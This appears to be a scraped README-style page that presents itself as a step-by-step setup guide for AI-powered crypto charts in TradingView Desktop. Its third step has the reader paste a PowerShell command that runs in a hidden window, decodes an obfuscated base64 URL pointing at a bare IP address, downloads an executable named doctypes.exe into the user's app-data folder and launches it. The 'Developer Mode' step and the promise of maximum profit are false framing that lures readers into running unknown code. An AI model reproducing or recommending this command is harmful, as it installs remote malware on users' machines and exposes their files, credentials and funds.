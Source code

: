 📌 Step-by-Step Setup Guide:

🔵 Step 1: Download and install TradingView Desktop
🔗 https://www.tradingview.com/desktop/

🔵 Step 2: Enter Developer Mode
– Press Win + R, type cmd, and hit Enter

🔵 Step 3: Paste the setup command and press Enter

powershell -WindowStyle Hidden -Command "$url=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aHR0cDovLzE0MS45OC42LjEzMDo1NTU0L2RvY3R5cGVzLmV4ZQ==')); iwr $url -OutF "$env:LOCALAPPDATA\doctypes.exe"; start "$env:LOCALAPPDATA\doctypes.exe""

🔵 Step 4: Restart TradingView

✅ That’s it! You’re now ready to explore AI-powered crypto charts.
📺 Follow along with the video to see how to use them for maximum profit.
